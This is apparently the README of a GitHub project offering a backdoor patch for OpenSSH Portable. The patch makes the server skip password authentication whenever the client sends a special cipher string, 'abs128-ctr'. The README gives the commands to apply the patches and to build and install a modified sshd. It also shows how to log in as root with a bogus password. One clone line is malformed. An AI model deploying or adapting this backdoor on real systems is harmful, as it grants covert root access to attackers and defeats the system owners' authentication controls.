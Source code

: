 # openssh-backdoor
Experimental backdoor for OpenSSH Portable. 

## How does it work?

This repo contains a patch for OpenSSH (server and client) to allow for a complete authentication bypass without modifying configuration files on the target server endpoint, adding new users, overwriting credentials, etc. The patch creates a special cipher suite, in this case `abs128-ctr`, that acts as an activation phrase for the backdoor. The OpenSSH client is modified to allow for this new cipher suite string to be sent, and the OpenSSH server, upon receiving the special cipher suite string, will bypass PASSWD authentication for the session. 

## Installation and Patching 

The following commands when issued will patch OpenSSH and produce a modified ssh client in `/tmp/ssh` and a modified server in `/usr/local/sbin/sshd`. 

```
git clone https://github.com/openssh/openssh-portable
https://github.com/Psmths/openssh-backdoor
cp ./openssh-backdoor/*.patch ./openssh-portable/
cd openssh-portable/
patch -u auth-passwd.c -i auth-passwd.c.patch
patch -u auth.c -i auth.c.patch
patch -u cipher.c -i cipher.c.patch 
patch -u kex.c -i kex.c.patch
patch -u kex.h -i kex.h.patch
patch -u packet.h -i packet.h.patch
patch -u servconf.c -i servconf.c.patch
patch -u ssh.c -i ssh.c.patch
patch -u sshd.c -i sshd.c.patch
autoreconf
./configure --bindir=/tmp/
make -j 16
```

To test, run the modified server binary and set it to listen on some port:

```
sudo /usr/local/sbin/sshd -p 9001
```

Attempt to authenticate without the special cipher suite string, and a bogus password. This should fail.
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "chacha20-poly1305@openssh.com"
```

Attempt to authenticate with the special cipher suite string, in this case `abs128-ctr`, and a bogus password. This should seccessfully authenticate you as root.
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "abs128-ctr,chacha20-poly1305@openssh.com"
```
